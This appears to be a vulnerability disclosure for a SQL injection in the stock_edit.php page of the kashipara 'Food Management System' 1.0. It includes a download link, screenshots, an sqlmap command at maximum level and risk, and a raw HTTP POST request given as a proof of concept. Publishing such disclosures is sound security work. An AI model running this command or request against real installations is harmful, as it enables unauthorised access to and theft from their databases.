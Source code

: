 ###  

### Food Management System SQL Injection Vulnerability

Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: [www.kashipara.com/](http://www.kashipara.com/) 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\stock_edit.php

![img](https://cdn-images-1.medium.com/max/900/1*haPqYSCR-rLWjtdBApVrSQ.png)















 When SQL statements are executed, variables entered by the user are not filtered and validated sufficiently, resulting in malicious SQL statements that can be injected by maliciously constructed inputs.

SQLmap：



![img](https://cdn-images-1.medium.com/max/900/1*IamTiqsxyETu3zyDjJEcFA.png)



















SQLMAP：
python sqlmap.py -r 2.txt --level 5 --risk 3
POC：

```
POST /chopstic1/stock_edit.php HTTP/1.1
Host: localhost
Content-Length: 61
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/chopstic1/stockentry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

id=1&item_type=Ice-Creamaaaaaaa&item_name=1&action=updateStock
```